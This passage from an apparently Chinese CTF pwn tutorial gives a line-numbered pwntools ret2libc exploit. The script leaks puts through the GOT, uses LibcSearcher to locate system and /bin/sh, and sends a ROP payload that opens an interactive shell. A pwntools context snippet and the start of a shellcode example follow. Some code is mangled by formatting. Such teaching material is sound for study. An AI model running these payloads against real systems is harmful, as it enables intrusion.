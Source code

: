 17.
18.payload=b'\0'+b'a'*(0x50-1) +p64(0) + pop_rdi_ret + p64(puts_got) + p64(puts_plt) + main_addr   #使用plt调用 puts函数,
19.#使用puts函数的got作为参数进行打印获取puts的真实地址，后返回main函数
20.sh.recv()
21.sh.sendline(b"1")  #进入encrypt函数进行溢出
22.sh.recv()
23.sh.sendline(payload)
24.sh.recvuntil("Ciphertext\n")
25.sh.recvuntil("\n")
26.puts_addr=u64(sh.recv(6).ljust(8,b'\x00')) #接收真实puts地址  64位
27.##puts_addr = u32(io.recv(4))              #32位接收真实地址28.print("realaddr:",hex(puts_addr))
29.
30.
31.print("start2------------------------")
32.obj = LibcSearcher("puts",puts_addr)      #确认libc的版本
33.libcbase = puts_addr - obj.dump('puts')   #dump计算偏移，从而求出libc的基址34.system_addr = libcbase + obj.dump('system')   #计算出system的偏移地址加上基址得到system的真实地址
35.bin_sh_addr = libcbase + obj.dump('str_bin_sh')      #计算/bin/sh的真实地址
36.
37.
38.print("打印puts,system，/bin/sh的真实地址")
39.print("puts的真实地址:",hex(puts_addr))
40.print("system的真实地址:",hex(system_addr))
41.print("/bin/sh的真实地址:",hex(bin_sh_addr))
42.print("基地址:",hex(libcbase))
43.print("END!!!!!!!!!")
44.
45.
46.print("start3------------------------")
47.payload1=b'\0' + b'a'*(0x58-1) + p64(ret) + pop_rdi_ret + p64(bin_sh_addr) + p64(system_addr) #在返回地址上写入ret的地址维持RSP对齐
48.
49.
50.sh.sendline(b'1')      #发送1进入encrypt函数
51.sh.recvuntil("encrypted\n")
52.sh.sendline(payload1)

`53.sh.interactive()`</pre>


```
1.context(os=’linux’, arch=’amd64’, log_level=’debug’)//主要设置arch=amd64</code>`2.//os设置系统为linux系统,大多数pwn题目的系统都是linux`<code>3.//arch设置为amd64，可以简单的认为设置为64位的模式，对应的32位模式是’i386’
```

#### 例题：

首先检查安全保护<img alt="" height="192" src="https://img-blog.csdnimg.cn/25fba892bc13490abda0c294158eb494.jpeg" width="678"/>

发现存在可读写执行的段，既可以写入shellcode的方式获取shell

使用64位的IDA进行分析获取源码如下<img alt="" height="278" src="https://img-blog.csdnimg.cn/bb89c050d3054260997e1109bb041e26.jpeg" width="690"/>
